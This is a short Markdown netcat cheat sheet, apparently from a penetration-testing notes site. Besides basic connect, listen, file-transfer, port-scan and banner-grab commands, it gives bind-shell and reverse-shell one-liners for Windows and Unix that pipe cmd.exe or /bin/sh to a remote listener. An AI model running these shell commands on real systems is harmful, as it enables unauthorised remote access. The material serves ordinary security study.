 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
Insert picture here


# Basic  
**TCP Port - Connecting**  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**  
`nc -lvp <PORT>`

**Connect and return HTTP Page**  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**  
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

# Windows  

**Bind Shell**  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
**Bind Shell**  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`

# Additional Resources  

[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
